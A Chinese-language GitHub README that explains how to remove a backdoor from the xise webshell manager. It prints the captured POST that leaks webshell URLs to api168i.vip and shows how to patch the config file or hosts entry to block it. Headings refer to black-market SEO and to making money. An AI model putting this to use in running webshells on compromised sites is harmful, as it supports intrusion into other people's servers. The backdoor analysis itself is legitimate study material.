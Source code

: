 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




`POST /abc1.php HTTP/1.1`

`Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*`

`Referer: http://api168i.vip/abc1.php`

`Accept-Language: zh-cn`

`Content-Type: application/x-www-form-urlencoded`

`Content-Length: 43`

`User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)`

`Host: api168i.vip`

`Cache-Control: no-cache`

`hm=http://xxxx/bak111.php||xise`



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题



## 回头望黑产上的seo，并非出国才能赚百万





## 一次服务器被而已攻击（最终对于攻击者当然是摁在地上摩擦了）
